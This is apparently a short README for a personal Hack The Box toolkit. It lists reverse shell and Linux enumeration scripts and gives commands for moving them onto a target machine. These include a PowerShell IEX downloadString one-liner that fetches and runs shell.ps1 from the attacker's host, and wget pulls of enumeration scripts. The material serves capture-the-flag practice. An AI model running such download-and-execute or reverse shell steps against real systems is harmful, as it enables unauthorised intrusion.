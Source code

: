# Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine

**les.sh and LinEnum.sh** : Use for detect vuln in Linux machine

### How to upload files to vuln linux machine
In your machine type : 
> python -m SimpleHTTPServer

In vuln machine type : 
> wget (your ip address):8000/(file to upload)

Example : 
> wget 10.10.14.62:8000/les.sh

### How to upload files to vuln windows machine
In your machine type : 
> python -m SimpleHTTPServer

In vuln machine type : 
```
if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
> powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
